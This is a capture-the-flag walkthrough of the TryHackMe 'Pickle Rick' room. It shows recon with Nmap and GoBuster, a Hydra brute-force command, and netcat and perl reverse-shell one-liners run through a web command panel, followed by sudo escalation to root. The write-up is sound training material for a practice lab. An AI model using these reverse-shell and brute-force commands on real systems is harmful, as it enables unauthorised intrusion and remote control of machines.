 ```yaml
---
title: "[TryHackMe] Pickle Rick: A Rick and Morty CTF"
published: true
---
```


In this CTF, we are given a machine and have to attempt to find three ingredients.
[You can try it yourself here!](https://tryhackme.com/room/picklerick).

Firstly, let's do some recon:

## >Recon

### Nmap scan:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dd:8c:c4:2a:d5:e7:f9:c4:e9:14:49:58:ea:16:c9:09 (RSA)
|   256 6f:3e:ce:5c:92:ca:3e:4b:dd:dd:47:ef:41:19:2a:c7 (ECDSA)
|_  256 e8:8a:7e:fa:59:85:4a:06:a7:7d:47:c1:95:b0:80:65 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
```

Seems like two ports are open; a webserver running on port 80 and SSH on port 22.
Let's take a look at the webpage.

![](../assets/rick1.png)

Looking at the source of the main webpage, we find:

```js
Note to self, remember username!

Username: R1ckRul3s
```

### GoBuster:

Let's look for hidden directories on the website.

A search without extensions will yield:
```shell
/assets (Status: 301)
/server-status (Status: 403)
```
However, using the extensions .html, .php and .txt yields:
```shell
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/robots.txt (Status: 200)
```

login.php -->
![](../assets/rick2.png)

Using BurpSuite, we get three good pieces of information from the login form:
1. The form is sent as a POST.
2. We can see the way the user and password are sent.
3. We can see an error message.

```shell
1. POST /login.php HTTP/1.1
2. username=TEST_USER&password=TEST_PASSWORD&sub=Login
3. Invalid username or password. 
```

Now we have a username and a login form. Let's hail Hydra.

## >Dictionary Attack

Using the information gathered before, let's try to recover Rick's password using Hydra:

```shell
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt 10.10.137.78 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password."
```

Without much success, I started to look for other resources and found that robots.txt contained the following:
```js
W**************d
```
A password perhaps...?

And... we're in.

## >Reverse Shell

![](../assets/rick3.png)

We are greeted with a Commands Panel where we can execute Linux commands so let's get a reverse shell first.

The command
```shell
nc -e /bin/sh <IP> 5555
```
fails, so netcat is most likely banned.

*BUT* perl is allowed:
```shell
perl -e 'use Socket;$i="<IP>";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Just in the directory we land, we find the first ingredient and a clue:
```
clue.txt:
Look around the file system for the other ingredient.
```
Let's see if we're lucky with the find command and any file that has "ngred" in its name exists:
```shell
$ find / -name "*ngred*" 2>>/dev/null
/var/www/html/Sup3rS3cretPickl3Ingred.txt
/home/rick/second ingredients
```

And we got it.

Having no clue where to find the last ingredient, I thought of privilege escalation and tested what I could do as the user I was given --> www-data:

```shell
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-137-78.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-137-78.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

We hit the lottery. We can run any command with sudo.
```shell
$ sudo su
whoami
root
```
We can find the last flag in the /root directory. 

## Another day, another root!